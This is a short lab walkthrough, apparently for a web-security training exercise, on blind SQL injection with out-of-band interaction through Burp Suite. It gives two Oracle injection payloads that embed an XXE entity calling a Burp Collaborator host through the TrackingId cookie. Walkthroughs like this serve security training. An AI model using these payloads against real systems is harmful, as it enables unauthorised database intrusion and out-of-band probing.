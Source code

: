 Step 1 : Intercept the request using BurpSuite Pro.

Step 2 : Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
  ```
  ' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
  ```
  
Step 3: Go to Burp Collaborator Client and copy the subdomain and paste it in payload. For eg:
   ```
   ' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://615l2lnatx5gf2wkh3dq2x9xtozen3.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
   ```
   
Step 4: Copy and paste it after TrakingId Cookie, the URL encode it then send.

Step 5: Now go to Burp Collaborator, and press 'Poll now'

Step 6: You will now see the DNS Lookup.
